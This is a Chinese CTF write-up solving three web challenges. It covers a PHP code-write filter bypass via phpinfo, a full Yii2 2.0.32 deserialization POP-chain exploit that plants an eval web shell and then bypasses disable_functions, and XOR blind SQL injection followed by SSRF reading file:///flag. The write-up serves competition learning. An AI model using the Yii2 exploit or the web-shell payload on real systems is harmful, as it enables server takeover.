Web体验还行，不是太难，压轴题很合理

<!-- more -->

## WEB

### find_it

题目没啥意思23333，还老是503

扫下目录，访问`robots.txt` ，得到`1ndexx.php`，访问页面500报错，应该是缺参数，既然这样那肯定要给源码(不然寄刀片伺候)

发现备份文件`.1ndexx.php.swp`

```php
<?php

#Really easy...

$file=fopen("flag.php","r") or die("Unable 2 open!");

$I_know_you_wanna_but_i_will_not_give_you_hhh = fread($file,filesize("flag.php"));


$hack=fopen("hack.php","w") or die("Unable 2 open");

$a=$_GET['code'];

if(preg_match('/system|eval|exec|base|compress|chr|ord|str|replace|pack|assert|preg|replace|create|function|call|\~|\^|\`|flag|cat|tac|more|tail|echo|require|include|proc|open|read|shell|file|put|get|contents|dir|link|dl|var|dump/',$a)){
	die("you die");
}
if(strlen($a)>33){
	die("nonono.");
}
fwrite($hack,$a);
fwrite($hack,$I_know_you_wanna_but_i_will_not_give_you_hhh);

fclose($file);
fclose($hack);
?>
```

ban了一堆函数，先看看phpinfo

payload：

```php
./?code=<?php phpinfo();
```

访问`hack.php`

搜索字符串，结果发现flag写在了环境变量里，被phpinfo暴露出来了



说实话，`1ndexx.php`和`index.php` 切换迷惑人，然后平台的问题，盲猜docker分发写环境变量，最后没删23333


---

### framework

扫到`www.zip`，看下是[Yii Framework2.0.32](http://github.com/yiisoft/yii2/)

去官网下原版比对一下，发现就改了个参数

#### [Yii2反序列化漏洞](https://www.cnblogs.com/thresh/p/13743081.html)

拿poc直接打，由于base64后可能会有`/`或者`+`等，所以先base64一下写函数解码即可

system似乎被ban了不行

```php
<?php
namespace yii\rest{
    class CreateAction{
        public $checkAccess;
        public $id;

        public function __construct(){
            $this->checkAccess = 'assert';
            $this->id = "file_put_contents('1.php',base64_decode('PD9waHAgZXZhbCgkX1BPU1RbYV0pPz4='))";
        }
    }
}

namespace Faker{
    use yii\rest\CreateAction;

    class Generator{
        protected $formatters;

        public function __construct(){
            // 这里需要改为isRunning
            $this->formatters['isRunning'] = [new CreateAction(), 'run'];
        }
    }
}

// poc2
namespace Codeception\Extension{
    use Faker\Generator;
    class RunProcess{
        private $processes;
        public function __construct()
        {
            $this->processes = [new Generator()];
        }
    }
}
namespace{
    // 生成poc
    echo base64_encode(serialize(new Codeception\Extension\RunProcess()));
}
?>
```

这里原poc打的参数是data，这里修改为message



打过去就行，虽然报错但是已经执行了



在当前目录会生成`1.php`，蚁剑连一下



发现有disable_function，当时心凉一截，不会和蓝帽一样...

侥幸心理测了下蚁剑的突破插件，发现`Apache_mod_cgi`可以，执行根目录下`/readflag`即可




---

### WebsiteManger

打开登陆界面，估计是注入

看看连接，发现异常请求，还好没上来对着`username`乱试



经测试，可以使用异或 盲注

```
错误语句返回报错
正确语句错误表达返回：WHAT ARE YOU DOING
正确语句id为1返回图片
正确语句id为0返回空
```







异或盲注脚本跑，可见以前写的WP

拿到信息如下

```
# version==========>5.5.60-0+deb8u1
# databases==========>ctf
# tables==========>images,users
# users.columns==========>username,password
# users.data==========>admin~a1d4f79c94f0cd3feeac4
```

似乎密码还是容器随机的，拿到用户名密码登陆



明显ssrf，用file协议读一下文件可行，直接读flag

payload：

```
file:///flag
```



